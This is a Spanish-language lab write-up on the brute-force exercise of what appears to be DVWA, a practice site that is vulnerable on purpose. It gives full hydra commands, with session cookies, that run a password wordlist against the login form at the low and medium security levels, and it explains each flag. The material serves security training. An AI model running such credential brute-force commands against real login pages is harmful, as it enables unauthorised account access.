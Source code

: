 
# 2.1-Brute Force

El primer paso es sacar la cookie de sesión de admin para poder acceder al directorio específico para poder realizar las pruebas de penetración, para ello accederemos a nuestro navegador para iniciar sesión, y posteriormente pulsaremos la tecla F12 para acceder a la ruta Aplication > Cookies > PHPSESSID y almacenaremos dicho valor:

![ImageDownload](./images/2.1.1_cookie.png)

En este apartado, vamos a realizar un ataque de fuerza bruta para conseguir acceso a nuestra página web vulnerable, haciendo uso de hidra en la versión 9.3 junto a un par de wordlists con posibles nombres de usuarios y contraseñas filtradas. Para ello vamos a implementar el siguiente comando:

## LOW

    hydra -l admin -P passwd.txt 192.168.1.64 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=a11qe4jffes22474ae20817ih6"

Y una vez finalizado la ejecución, podemos observar que ha encontrado la contraseña

![ImagenLow](./images/imagenlow.png)

## MID

    hydra -l admin -P passwd.txt 'http-get-form://192.168.1.146/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie\: PHPSESSID=q1al1s91f2l75phkc846d636e6; security=medium'


hydra
    
    → Es la herramienta utilizada para realizar el ataque de fuerza bruta.

-l admin
    
    → Especifica el nombre de usuario.

-P /home/ubuntu/Desktop/credentials/passwds.txt
    
    → Especifica la lista de contraseñas, la cual contiene millones de combinaciones comunes.

http-get-form://192.168.1.146/vulnerabilities/brute/

    → Indica que se atacará un formulario de inicio de sesión usando el método GET.
    → La URL objetivo es http://192.168.1.146/vulnerabilities/brute/ 

username=^USER^&password=^PASS^&Login=Login
    
    → Define la estructura del formulario de autenticación:

        ^USER^ será reemplazado por el usuario (admin en este caso).
        ^PASS^ será reemplazado por cada contraseña de la lista.
        Login=Login representa el botón de envío.

:S=Welcome
    
    → Indica la condición de éxito: si la respuesta del servidor contiene la palabra "Welcome", significa que el acceso fue exitoso.

:H=Cookie\: PHPSESSID=q1al1s91f2l75phkc846d636e6; security=medium
   
     → Agrega una cabecera HTTP con cookies:

        PHPSESSID=q1al1s91f2l75phkc846d636e6 
            Identificador de sesión.
    
        security=medium 
            Establece un nivel de seguridad en la plataforma de pruebas.


Y una vez finalizada la ejecución, podemos observar que ha encontrado la contraseña:

![ImageDownload](./images/2.1.2_FinEjecucion.png)
